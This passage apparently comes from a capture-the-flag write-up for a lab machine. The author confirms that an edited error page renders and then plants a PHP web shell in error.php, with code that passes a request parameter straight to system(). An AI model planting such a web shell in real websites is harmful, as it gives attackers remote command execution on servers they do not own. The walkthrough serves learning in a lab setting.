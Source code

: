 I can load this page by visiting non-existing page.

![](attachments/devvortex_10.png)

It works! I can see the message I inserted.
Let's replace it to php web shell.
I added the following on the `error.php` file.

```php
if (isset($_REQUEST['bokchee'])) {
  system($_REQUEST['bokchee']);
  die();
}
```
